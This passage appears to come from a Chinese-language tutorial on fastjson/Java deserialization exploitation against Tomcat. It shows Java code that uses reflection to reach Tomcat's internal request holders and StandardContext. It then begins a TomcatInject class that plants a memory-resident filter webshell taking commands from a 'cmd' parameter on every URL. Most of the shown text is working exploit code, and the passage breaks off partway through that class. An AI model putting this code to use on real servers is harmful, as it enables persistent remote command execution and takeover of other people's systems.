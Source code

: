 ```java
            f.setAccessible(true);
            if (f.get(null) == null) {
                f.set(null, new ThreadLocal());
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
当第一步通过反序列化完成之后，那么WRAP_SAME_OBJECT 值为 true，lastServicedRequest和lastServicedResponse这两个ThreadLocal也都初始化了，那么就能够获取到request，就能获取ServletContext，进而获取到StandardContext
代码如下：
```java
package com.fastjson.test;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.LifecycleState;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

/**
 * @author threedr3am
 */
public class TomcatInject extends AbstractTranslet implements Filter {

    /**
     * webshell命令参数名
     */
    private final String cmdParamName = "cmd";
    private final static String filterUrlPattern = "/*";
    private final static String filterName = "test";

    static {
        try {
            ServletContext servletContext = getServletContext();
            if (servletContext != null){
                Field ctx = servletContext.getClass().getDeclaredField("context");
                ctx.setAccessible(true);
                ApplicationContext appctx = (ApplicationContext) ctx.get(servletContext);

                Field stdctx = appctx.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
```